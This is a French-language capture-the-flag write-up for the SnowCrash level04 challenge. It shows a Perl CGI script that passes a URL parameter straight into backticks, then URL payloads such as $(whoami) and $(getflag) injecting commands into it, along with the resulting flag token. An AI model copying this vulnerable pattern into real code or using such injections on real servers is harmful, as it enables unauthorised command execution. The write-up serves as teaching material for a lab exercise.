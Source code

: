 # LEVEL 04

### Reconnaissance

En se connectant sur le compte level04, on trouve un script perl:

```
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
level04@SnowCrash:~$ ./level04.pl 
Content-type: text/html
```

Efdfectivement le port 4747 est bien en ecoute:
```
level04@SnowCrash:~$ netstat -tulpen
(No info could be read for "-p": geteuid()=2004 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode       PID/Program name
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      0          12556       -               
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      3011       12673       -               
tcp6       0      0 :::4646                 :::*                    LISTEN      0          10651       -               
tcp6       0      0 :::4747                 :::*                    LISTEN      0          10655       -               
tcp6       0      0 :::80                   :::*                    LISTEN      0          10646       -               
tcp6       0      0 :::4242                 :::*                    LISTEN      0          12558       -               
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          12114       -   
```

### Exploitation

*Pour comprendre les CGI perl --> http://www.dil.univ-mrs.fr/~chris/Documents/CGI*

En se rendant sur IP:4747 on a une page blanche

En testant le script on voir qu'il nous renvoit ce qu'on passe en argument:
http://192.168.56.105:4747/?x=/bin/ls
/bin/ls

Testons une injection de commande:
http://192.168.56.105:4747/?x=$(whoami)
flag04

Bingo !

http://192.168.56.105:4747/?x=$(getflag)
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap



